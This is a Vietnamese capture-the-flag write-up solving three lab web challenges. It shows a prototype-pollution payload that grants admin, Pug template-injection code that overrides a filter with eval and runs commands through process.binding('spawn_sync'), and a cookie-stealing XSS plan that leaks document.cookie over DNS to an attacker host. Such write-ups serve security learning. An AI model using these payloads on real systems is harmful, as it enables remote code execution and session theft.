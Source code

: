 ```yaml
---
title: "W1 Playground Writeup"
date: 2024-05-01 00:00:00 +0800
categories: [CTF Writeup]
tags: [Prototype Pollution, SSTI, API testing, XSS, PHP]
---
```


## Bài 1: easy login

![image](https://i.imgur.com/paDR37b.png)

Phân tích qua code thì chúng ta có 2 endpoint cần để tâm là "/login" và "/admin"

![image](https://i.imgur.com/ljSahfY.png)

![image](https://i.imgur.com/mr7eats.png)

Chức năng login bắt chúng ta post data lên và server sẽ trả lại mã jwtkey để chúng ta đăng nhập
Chức năng admin kiểm tra xem chúng ta có phải admin không qua `isAdmin=true` sau khi phân tích jwtkey
Sau khi phân tích bài này dính lỗi Prototype Pollution bằng cách thêm `logindata["__proto__"][isAdmin]=true` vào thì prototype của `logindata` sẽ có thuộc tính `isAdmin=true` từ đó logindata sẽ kế thừa thuộc tính đó
Payload

![image](https://i.imgur.com/t62zoI3.png)

Có jwtkey rồi thì vào admin để lấy flag thôi

![image](https://i.imgur.com/NdpGVoS.png)

**Flag : W1{REDACTED}**


## Bài 2: render4free

![image](https://i.imgur.com/KTMygHL.png)

Phân tích qua code thì web này đang sử dụng Pug template engine để in ra các ký tự chúng ta gõ vào
Sau khi phân tích code thì chúng ta có thể rút ra web đang dính lỗi SSTI nhưng có 1 function này đang chặn chúng ta khai thác SSTI

![image](https://i.imgur.com/SliIvxB.png)

Sau khi đọc pug document thì chúng ta có thể sử dụng "-" để viết code js

![image](https://i.imgur.com/5mAiiby.png)

Bây giờ chúng ta có thể dùng "-" để viết code js thì chúng ta viết gì ? Đó chính là ghi đè lại function filter ký tự của chúng ta

```- global.replace_bad_char = str_to_replace => str_to_replace```
Tiếp tục ghi đè lại function trên để chúng ta có thể thực hiện lệnh eval

```- global.replace_bad_char = str_to_replace => eval(str_to_replace)```
Sau khi ghi đè được rồi thì viết vào để thử thực hiện RCE nào
Payload ```require('child_process').exec('ping hacked.sv')```
![image](https://i.imgur.com/ACbksnM.png)
Làm gì dễ thế anh Shin24 (author bài này) đã set type của nodejs là module tức chúng ta không thể require mà phải sử dụng import
Nhưng mà code đã chỉnh Promise.prototype.then đã thành 1 hàm trả về null

![image](https://i.imgur.com/2wwyD2a.png)

Oat gì dark vậy, lúc này chúng ta sử dụng process.binding để import các modules của nodejs
```js
  process.binding('spawn_sync').spawn({ 
    file: 'ls',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```
![image](https://i.imgur.com/zswZKe6.png)

Ngon vậy là có thể thực hiện lệnh ls
Để ý ở file Docker author đã tạo ra 1 file /read_flag để đọc flag vậy chúng ta thực thi file read_flag để nhận flag

![image](https://i.imgur.com/5EUqBt7.png)

Payload:
 ```js
  process.binding('spawn_sync').spawn({ 
    file: '/read_flag',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```

  ![image](https://i.imgur.com/dKfBXot.png)


  **Flag: W1{REDACTED}**



## Bài 3: Super sanitizer

  ![image](https://i.imgur.com/IZdGXnh.png)

  Tóm tắt bài web này sử dụng WASM được compile từ C và sử dụng nó để xử lý input của user
  File C nhận input của user và blacklist để xử lý nếu có ký tự blacklist thì ký tự đó sẽ bị xoá khỏi input của user

  ![image](https://i.imgur.com/4gXTA7l.png)

  Blacklist của bài này như sau `<imgoner='\"'>`

  Lỗi của bài này nằm ở đây

  ![image](https://i.imgur.com/zaOqpyM.png)

  Khi chúng ta cho 1 ký tự có độ dài là `0x300` thì `raw_str[0x300]` sẽ bị tràn và sẽ ghi đè lên ký tự đầu tiên của blacklist là `\x00` từ đó blacklist sẽ trở thành rỗng -> bypass filter

  Nhưng đến đây thì vẫn chưa xong, web có CSP để làm XSS khó hơn

  Sau một lúc fuzzing để kiểm tra thì dù CSP chặn redirect nhưng `window.location.href=hackerwebsite.com` vẫn resolve dns vậy ta có thể tận dụng cái này để leak flag do flag khá dài nên mình leak 2 lần để lấy flag (ví dụ `flag.hackerwebsite.com`)

  Nhưng leak kiểu gì? Mình đã thử leak kiểu `btoa(document.cookie)+".hackerwebsite.com"` nhưng khi leak thì vì lý do bảo mật dns query sẽ ngẫu nhiên uppercase hoặc lowercase các ký tự làm base64 bị lỗi nên nghĩ sang cách khác là `document.cookie.charCodeAt(0->document.cookie.length-1)` để leak ra từng ký tự của flag sang mã ascii

  Payload các bạn tự craft nhé


  ![image](https://i.imgur.com/JhaUWFx.png)

  **Flag: W1{REACTED}**










